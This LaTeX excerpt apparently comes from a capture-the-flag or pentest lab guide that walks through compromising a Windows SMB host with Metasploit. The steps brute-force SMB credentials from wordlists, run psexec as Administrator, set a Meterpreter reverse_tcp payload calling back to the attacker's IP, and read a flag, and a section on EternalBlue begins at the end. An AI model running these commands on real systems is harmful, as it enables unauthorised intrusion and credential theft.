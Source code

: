 \begin{notebox}
\begin{termbox}
# Step 1 --- confirm SMB is open and get OS info
nmap -sV -sC target_ip

# Step 2 --- start Metasploit
service postgresql start && msfconsole
workspace -a smb_psexec

# Step 3 --- brute-force SMB credentials
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOST target_ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run

# Step 4 --- use psexec with found administrator credentials
search psexec
use exploit/windows/smb/psexec
set RHOST target_ip
set SMBUser Administrator
set SMBPass found_password
set LHOST my_kali_vpn_ip
exploit

# Step 5 --- post-exploitation
sysinfo
getuid
cd /
ls
cat flag.txt
\end{termbox}



\begin{notebox}
If you want a Meterpreter session with a payload (instead of just logging in
with credentials), add the payload steps:
\begin{termbox}
set payload windows/meterpreter/reverse_tcp
show options
# Confirm LHOST and LPORT are set correctly
exploit
\end{termbox}
The session without a payload logs in legitimately with no backdoor.
The session with a payload creates a Meterpreter connection but is more detectable.
\end{notebox}

\section{EternalBlue --- MS17-010}
\label{sec:eternalblue}

\begin{warnbox}
EternalBlue only works on SMBv1. Do not run this exploit until memory options
are correctly set. Targeting kernel space memory without correct configuration
can crash the target system.
\end{warnbox}


\end{notebox}

